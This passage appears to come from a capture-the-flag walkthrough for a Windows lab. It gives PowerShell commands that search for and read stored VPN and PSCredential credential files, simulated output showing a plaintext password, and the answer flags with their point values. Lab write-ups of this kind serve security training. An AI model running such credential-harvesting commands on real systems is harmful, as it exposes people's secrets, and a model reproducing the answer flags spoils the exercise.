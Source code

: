 ```powershell
# Search for VPN configurations
dir C:\Users\Public\Documents\Credentials\
type C:\Users\Public\Documents\Credentials\vpn.txt
```

**Screenshot Simulation:**
```
VPN Server: vpn.overclock.io
Username: jsmith
Password: Welcome1
Secret: FLAG{DUGTRIO06075219}
```

**Why:** VPN configurations often contain credentials and sensitive network information.

---

## FLAG 19: PowerShell Credential (25 points - Medium)
**Location:** PowerShell Credential  
**Flag:** FLAG{PERSIAN04938649}

### Attack Method: PowerShell Credential Recovery

```powershell
# Find credential files
Get-ChildItem -Path C:\ -Filter *.xml -Recurse -ErrorAction SilentlyContinue | Select-String "PSCredential"

# Import credential file
$cred = Import-Clixml C:\Users\Public\Documents\Credentials\admin.xml

# View the file for flag
type C:\Users\Public\Documents\Credentials\admin.xml
```

**Screenshot Simulation:**
```xml
<Objs Version="1.1.0.1">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
  </Obj>
</Objs>
<!-- Flag: FLAG{PERSIAN04938649} -->
```

**Why:** PowerShell credentials exported as XML are common in automation scripts but pose security risks.

---

## FLAG 20: Macro Document (15 points - Easy)
**Location:** Macro Document  
**Flag:** FLAG{GOLDUCK70820258}
